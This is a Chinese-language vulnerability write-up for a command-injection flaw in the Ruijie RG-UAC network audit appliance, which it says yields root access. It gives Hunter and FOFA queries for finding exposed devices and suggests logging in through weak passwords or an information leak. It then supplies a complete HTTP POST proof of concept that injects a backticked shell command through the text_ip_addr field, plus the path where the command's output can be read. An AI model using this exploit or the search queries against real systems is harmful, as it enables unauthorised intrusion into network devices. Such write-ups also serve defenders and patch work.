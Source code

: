 # 锐捷RG-UAC统一上网行为管理审计系统text_ip_addr后台命令执行漏洞

# 一、漏洞简介
锐捷RG-UAC统一上网行为管理审计系统存在命令执行漏洞,可以通过漏洞获取root权限 。

# 二、影响版本
+ 锐捷RG-UAC统一上网行为管理审计系统

# 三、资产测绘
+ hunter`app.name="Ruijie 锐捷 RG-UAC"`
+ fofoa:`app="Ruijie-RG-UAC"`

登录页

![1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c.png](./img/-36EvUu87to55yNJ/1711942665811-46dbe53d-d2cc-433f-ac40-7a78aa2d4c6c-173464.png)

# 四、漏洞复现
使用弱口令/敏感信息泄露漏洞登录系统后台

![1714985896501-ee5e7557-a9fe-4b1f-9baa-a777b9f147e5.png](./img/-36EvUu87to55yNJ/1714985896501-ee5e7557-a9fe-4b1f-9baa-a777b9f147e5-614323.png)

获取Cookie后使用下面poc

```plain
POST /view/networkConfig/IPConfig/ip_addr_edit_commit.php HTTP/1.1
Host: 
Cookie: PHPSESSID=ae63a240e1fdfb5614107040d19120f3
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 48

text_ip_addr=`whoami+>1.txt`&newmask=1&orgname=1
```

![1714987076862-fe1d19bd-7d16-41b7-bfc2-2ec74230b320.png](./img/-36EvUu87to55yNJ/1714987076862-fe1d19bd-7d16-41b7-bfc2-2ec74230b320-670307.png)

```plain
/view/networkConfig/IPConfig/1.txt
```

![1714987102310-5513bac3-2709-46e8-b180-02675667a5e1.png](./img/-36EvUu87to55yNJ/1714987102310-5513bac3-2709-46e8-b180-02675667a5e1-871889.png)



> 更新: 2024-06-24 11:42:28  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zivmo2zapknqqda3>